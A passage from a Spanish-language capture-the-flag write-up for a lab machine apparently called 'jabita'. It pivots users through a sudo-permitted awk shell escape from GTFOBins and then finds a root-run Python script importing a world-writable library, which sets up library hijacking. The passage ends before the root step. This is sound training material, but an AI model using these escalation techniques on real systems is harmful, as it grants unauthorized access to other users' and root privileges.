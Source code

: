 Como hacemos siempre, si miramos la lista de permisos que tenemos para usar privilegios de otro usuario vemos lo siguiente:

~~~
jack@jabita:~$ sudo -l
Matching Defaults entries for jack on jabita:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty, listpw=never

User jack may run the following commands on jabita:
    (jaba : jaba) NOPASSWD: /usr/bin/awk
~~~


### Pivotando de usuario

De esta forma, nos vamos a <https://gtfobins.github.io/gtfobins/awk/#sudo> y nos convertimos en el usuario *jaba* y cogemos la flag de user:

~~~
jack@jabita:~$ sudo -u jaba /usr/bin/awk 'BEGIN {system("/bin/sh")}'
$ whoami
jaba
$ cd /home/jaba
$ cat user.txt
~~~


## Escalada de privilegios

Volvemos a ver qué permisos tenemos e indagamos un poco:

~~~
jaba@jabita:~$ sudo -l
Matching Defaults entries for jaba on jabita:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty, listpw=never

User jaba may run the following commands on jabita:
    (root) NOPASSWD: /usr/bin/python3 /usr/bin/clean.py
jaba@jabita:~$ cat /usr/bin/clean.py
import wild

wild.first()
~~~

Aquí hemos comprobado que podemos ejecutar como *root* un script que carga una librería de Python.
De esta forma, vamos a investigar un poco más.

~~~
jaba@jabita:~$ find / -name "wild*" 2>/dev/null
/usr/lib/python3.10/wild.py
/usr/lib/python3.10/__pycache__/wild.cpython-310.pyc
jaba@jabita:~$ ls -l /usr/lib/python3.10/wild.py
-rw-r--rw- 1 root root 47 Jan 19 01:13 /usr/lib/python3.10/wild.py
~~~
